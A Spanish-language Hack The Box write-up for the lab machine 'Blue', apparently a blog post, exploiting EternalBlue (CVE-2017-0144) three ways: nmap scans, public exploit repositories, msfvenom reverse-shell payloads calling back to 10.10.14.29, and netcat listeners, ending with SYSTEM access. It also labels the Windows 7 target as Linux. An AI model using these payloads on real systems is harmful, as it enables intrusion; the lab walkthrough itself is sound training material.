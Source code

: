 ```yaml
---
title: 'Blue'
date: 2024-03-09T16:15:00-03:00
permalink: /posts/htb/:title/
categories: ["Writeups", "HTB"]
tags: ['Linux', 'CTF', 'EternalBlue', 'CVE-2017-0144']
image:
  path: /assets/img/htb/blue/blue.png
---
```


En este post, abordaremos la resolución de la máquina [Blue](https://app.hackthebox.com/machines/Blue) de la plataforma Hack The Box. Esta máquina exhibe una vulnerabilidad ampliamente reconocida, la cual exploraremos explotando de tres formas distintas manualmente. La vulnerabilidad a la que me refiero es comúnmente conocida como **EternalBlue**, identificada con el **CVE-2017-0144**.

## Reconocimiento

Comenzamos lanzando una traza ICMP a la máquina objetivo para comprobar que tengamos conectividad.

![blue](/assets/img/htb/blue/blue-1.png)
_Reconocimento usando el comando ping_

Podemos observar, que responde al envío de nuestro paquete, verificando de esta manera que tenemos conectividad. Por otra parte, confirmamos que estamos frente a una máquina Linux basandonos en el TTL (Time To Live).

## Enumeración

### Descubrimiento de puertos abiertos
Realizamos un escaneo con nmap para descubrir que puertos TCP se encuentran abiertos en la máquina víctima.

```bash
nmap -sS -p- --open --min-rate 5000 10.10.10.40 -oG scanPorts -vvv
```

![blue](/assets/img/htb/blue/blue-2.png)
_Descubrimiento de puertos abiertos_

> ver la [Cheatsheet](/cheatsheet/#22-nmap) para más detalle sobre los parámetros utilizados.
{: .prompt-info }

### Enumeración de versión y servicio

Lanzamos una serie de script básicos de enumeración propios de nmap, para conocer la versión y servicio que esta corriendo bajo los puertos abiertos.

```bash
nmap -sCV -p135,139,445,49152,49153,49154,49155,49156,49157 10.10.10.40 -oN targeted -vvv
```

![blue](/assets/img/htb/blue/blue-3.png)
_Descubrimiento de versión y servicio con nmap_

> ver la [Cheatsheet](/cheatsheet/#22-nmap) para más detalle sobre los parámetros utilizados.
{: .prompt-info }

Como evidenciamos en el escaneo, nos encontramos frente a una máquina Windows 7 de 64 bits que expone el puerto 445 (SMB). Realizando una búsqueda rápida en Google, confirmamos que esta versión específica está incluida entre las versiones afectadas por la vulnerabilidad conocida como `EternalBlue`.

## Explotación - Forma 1

Para llevar a cabo la explotación de esta vulnerabilidad, estaremos usando en primera instancia el exploit [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010).

Primero, debemos descargar el repositorio.

```bash
git clone --recursive https://github.com/3ndG4me/AutoBlue-MS17-010.git
```

Luego, tenemos que preparar nuestro shellcode. Para lo cual, debemos ejecutar el script `shell_prep.sh`.

![blue](/assets/img/htb/blue/blue-4.png)
_Preparación del shellcode_

![blue](/assets/img/htb/blue/blue-5.png)
_Preparación del shellcode_

A continuación, debemos establecer un listener utilizando netcat `nc`.

![blue](/assets/img/htb/blue/blue-6.png)
_Establecemos un listener con netcat_

Por ultimo, ejecutamos el exploit.

![blue](/assets/img/htb/blue/blue-7.png)
_Ejecución del exploit_

De esta forma, ganamos acceso a la máquina víctima como el usuario `NT AUTHORITY\SYSTEM`.

![blue](/assets/img/htb/blue/blue-8.png)
_Ganamos acceso al sistema_

## Explotación - Forma 2

Para realizar esta explotación, utilizaremos un exploit disponible en `Exploit-DB`.

![blue](/assets/img/htb/blue/blue-9.png)
_Exploit-DB MS17-010_

Antes de llevar a cabo la ejecución, debemos realizar algunas modificaciones en el script.

En primer lugar, tendremos que asignar a la variable `USERNAME` el valor de `guest`.

![blue](/assets/img/htb/blue/blue-10.png)
_Asignamos a la variable USERNAME el valor de guest_

Posteriormente, es necesario especificar la ubicación de nuestro payload y asegurarnos de que se ejecute automáticamente una vez que se cargue en la máquina víctima.

![blue](/assets/img/htb/blue/blue-11.png)
_Modifiación del script_

Después, procedemos a generar nuestro payload utilizando la herramienta `msfvenom`.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.29 LPORT=5555 -f exe > eternal-blue.exe
```

![blue](/assets/img/htb/blue/blue-12.png)
_Creación del payload usando msfvenom_

Establecemos un listener con netcat.

```bash
rlwrap nc -lnvp 5555
```

Ejecutamos el exploit

![blue](/assets/img/htb/blue/blue-13.png)
_Establecemos un listener con netcat_

Y ganamos acceso al sistema.

![blue](/assets/img/htb/blue/blue-14.png)
_Ganamos acceso al sistema_

## Explotación - Forma 3

Por ultimo, para nuestra forma de explotación número 3 utilizaremos el siguiente repositorio: [https://github.com/helviojunior/MS17-010](https://github.com/helviojunior/MS17-010)

Primero, procedemos a descargar el repositorio.

```bash
git clone --recursive https://github.com/helviojunior/MS17-010.git
```

Luego, al igual que el exploit anterior, debemos generar nuestro payload. Para lo cual, utilizaremos nuevamente `msfvenom`.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.29 LPORT=6666 -f exe > evil-shell.exe
```

![blue](/assets/img/htb/blue/blue-15.png)
_Creación del payload usando msfvenom_

Por otra parte, debemos asignar a la variable `USERNAME` el valor de `guest`.

![blue](/assets/img/htb/blue/blue-16.png)
_Asignamos a la variable USERNAME el valor de guest_

Establecemos un listener con netcat.

```bash
rlwrap nc -lnvp 6666
```

Ejecutamos el exploit

![blue](/assets/img/htb/blue/blue-17.png)
_Establecemos un listener con netcat_

Y de esta forma, volvemos a ganar acceso al sistema.

![blue](/assets/img/htb/blue/blue-14.png)
_Ganamos acceso al sistema_

Por ultimo, para completar la máquina solo resta leer los flags de `user.txt` y `root.txt`.

![blue](/assets/img/htb/blue/user.png)
_user.txt_

![blue](/assets/img/htb/blue/root.png)
_root.txt_

Con esto, concluimos la resolución de la máquina Blue.

Confío en que los conceptos hayan quedado claros. Si aún persisten dudas después de llegar a este punto, te sugiero considerar la posibilidad de revisitar la máquina para reforzar tu comprensión.

Gracias por tu lectura!

Happy Hacking!
